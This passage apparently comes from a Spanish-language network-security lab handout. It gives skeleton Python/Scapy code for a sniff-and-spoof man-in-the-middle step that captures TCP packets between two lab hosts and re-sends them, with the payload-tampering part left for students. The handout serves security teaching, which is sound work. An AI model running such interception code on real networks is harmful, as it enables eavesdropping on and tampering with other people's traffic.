 Para ayudar a los estudiantes, hemos hecho un código base de nuestro  programa de sniff-and-spoof. El programa captura todos los paquetes TCP, y realiza algunos cambios en los paquetes que viajan de A hacia B (la parte que realiza esta modificación no está incluída en el código, ya que es parte de la tarea). Para los paquetes que viajan de B hacia A, el programa no realiza ninguna modificación.


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
         # Create a new packet based on the captured one.
         # 1) We need to delete the checksum in the IP & TCP headers, 
         #    because our modification will make them invalid.
         #    Scapy will recalculate them if these fields are missing. 
         # 2) We also delete the original TCP payload.

         newpkt = IP(bytes(pkt[IP]))
         del(newpkt.chksum)
         del(newpkt[TCP].payload)
         del(newpkt[TCP].chksum)

         #################################################################
         # Construct the new payload based on the old payload.
         # Students need to implement this part.

         if pkt[TCP].payload:
             data = pkt[TCP].payload.load  # The original payload data
             newdata = data   # No change is made in this sample code

             send(newpkt/newdata)
         else:
             send(newpkt)
         ################################################################

    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
         # Create new packet based on the captured one 
         # Do not make any change 

         newpkt = IP(bytes(pkt[IP]))
         del(newpkt.chksum)
         del(newpkt[TCP].chksum)
         send(newpkt)


f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}


Cabe señalar que el código anterior, captura todo los paquetes TCP, incluído el que es generado por el mismo programa. Eso no es conveniente, y afectará a la performance. Los estudiantes necesitan cambiar el filtro para que el programa no capture sus propios paquetes.




